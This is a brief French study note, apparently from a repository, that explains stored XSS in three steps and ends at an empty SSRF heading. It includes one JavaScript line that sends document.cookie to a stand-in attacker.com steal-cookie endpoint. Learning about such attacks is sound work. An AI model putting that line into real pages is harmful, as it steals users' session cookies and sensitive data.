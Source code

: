 # Différents types d'attaque
### XSS
1. Insérer un bout de code malveillant dans un user input
2. Le bout de code se retrouve dans la BD
3. Si un autre utilisateur fetch ce code JS et qu'il est executé sur le navigateur de la victime, celle-ci peut se faire voler son cookie ou d'autres données sensibles
```
var url = "https://attacker.com/steal-cookie.php?cookie=" + document.cookie;
```

### SSRF